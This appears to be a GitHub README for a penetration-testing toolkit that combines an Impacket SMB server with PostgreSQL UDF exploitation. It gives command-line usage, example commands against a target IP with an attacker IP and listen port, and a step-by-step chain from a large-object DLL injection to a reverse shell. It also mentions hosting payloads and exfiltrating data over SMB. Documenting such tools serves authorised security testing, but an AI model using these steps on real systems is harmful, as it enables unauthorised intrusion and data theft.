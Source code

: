 # Integrated SMB Server and PostgreSQL UDF Exploitation Toolkit

This toolkit combines an SMB server with PostgreSQL UDF (User-Defined Function) exploitation capabilities, providing a comprehensive solution for security testing and penetration testing scenarios.

## Features

- **Integrated SMB Server**: Deploy a fully functional SMB server for file sharing during penetration tests
- **PostgreSQL UDF Exploitation**: Leverage PostgreSQL User-Defined Function vulnerabilities to execute code
- **Flexible Operation Modes**: Run either the SMB server or PostgreSQL exploit independently, or combine both
- **Robust Error Handling**: Comprehensive error checking and reporting
- **Detailed Logging**: Clear logging of all operations for monitoring and debugging

## Requirements

- Python 3.6 or higher
- Impacket library (for SMB server functionality)
- Requests library (for HTTP communication)

### Required Python Packages

```bash
pip install impacket requests
```

## Installation

1. Clone or download this repository:
   ```bash
   git clone https://github.com/user/postgres-smb-toolkit.git
   cd postgres-smb-toolkit
   ```

2. Install the required dependencies:
   ```bash
   pip install -r requirements.txt
   ```

3. Make the script executable (Unix-based systems):
   ```bash
   chmod +x exploit.py
   ```

## Usage

The toolkit can be used in three modes:

1. **SMB Server Only Mode**: Just run the SMB server component
2. **PostgreSQL Exploit Only Mode**: Only execute the PostgreSQL UDF exploitation
3. **Combined Mode**: Run both components together

### Command-line Arguments

```
usage: exploit.py [-h] [--smb-only | --postgres-only] [--share-name SHARE_NAME]
                  [--share-path SHARE_PATH] [--interface INTERFACE]
                  [--smb-port SMB_PORT] [--target-server TARGET_SERVER]
                  [--attacker-ip ATTACKER_IP] [--listen-port LISTEN_PORT]
                  [--udf-path UDF_PATH] [--output-path OUTPUT_PATH]
                  [--loid LOID] [--func-name FUNC_NAME]

Integrated SMB Server and PostgreSQL UDF Exploitation Tool

options:
  -h, --help            show this help message and exit
  --smb-only            Run only the SMB server
  --postgres-only       Run only the PostgreSQL UDF exploit

SMB Server Options:
  --share-name SHARE_NAME
                        Name of the SMB share (default: SHARE)
  --share-path SHARE_PATH
                        Path to the directory to share (default: ./share)
  --interface INTERFACE
                        Interface to bind the SMB server to (default: 0.0.0.0)
  --smb-port SMB_PORT   Port for the SMB server (default: 445)

PostgreSQL UDF Exploit Options:
  --target-server TARGET_SERVER
                        Target server IP:port for PostgreSQL exploit
  --attacker-ip ATTACKER_IP
                        Attacker IP for reverse shell
  --listen-port LISTEN_PORT
                        Port to listen on for reverse shell
  --udf-path UDF_PATH   Path to the UDF DLL (default: ./postgres_udf_shell.dll)
  --output-path OUTPUT_PATH
                        Path on target to save the DLL (default: C:\Users\Public\postgres_udf_shell.dll)
  --loid LOID           Large object ID to use (default: 1337)
  --func-name FUNC_NAME
                        Name for the UDF function (default: rev_shell)
```

### Example Usage Scenarios

#### 1. Start SMB server only:
```bash
./exploit.py --smb-only --share-name TOOLS --share-path /tmp/tools
```

#### 2. Run PostgreSQL UDF exploit only:
```bash
./exploit.py --postgres-only --target-server 192.168.1.10:8080 --attacker-ip 192.168.1.5 --listen-port 4444 --udf-path ./postgres_udf_shell.dll
```

#### 3. Run both with custom options:
```bash
./exploit.py --share-name PAYLOAD --share-path ./existing_payloads --target-server 192.168.1.10:8080 --attacker-ip 192.168.1.5 --listen-port 4444 --udf-path ./existing_payloads/postgres_udf_shell.dll
```

## How It Works

### SMB Server Component

The SMB server uses Impacket's SMB server functionality to create a network share accessible to the target system. This can be used for:

- Hosting payloads for exploitation
- Exfiltrating data from the target
- Providing access to tools during a penetration test

The server automatically detects the best available method for starting the SMB service, including:
- Using the `impacket-smbserver` command if available
- Utilizing the Python Impacket library directly
- Locating alternative paths for the SMB server script

### PostgreSQL UDF Exploitation Component

The PostgreSQL exploitation process follows these steps:

1. **Delete existing LO**: Removes any existing Large Object with the specified ID
2. **Create new LO**: Creates a new Large Object for UDF injection
3. **Inject UDF**: Injects the UDF payload into the Large Object
4. **Export UDF**: Exports the UDF library to the target's filesystem
5. **Create function**: Creates a function that uses the UDF library
6. **Trigger shell**: Triggers the UDF to establish a reverse shell back to the attacker

## Security Considerations

This tool is designed for legitimate security testing and should only be used with explicit permission on systems you are authorized to test. Unauthorized use of this tool may violate local, state, and federal law.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- [Impacket](https://github.com/SecureAuthCorp/impacket) - Used for SMB server functionality
- Various PostgreSQL security research that made this toolkit possible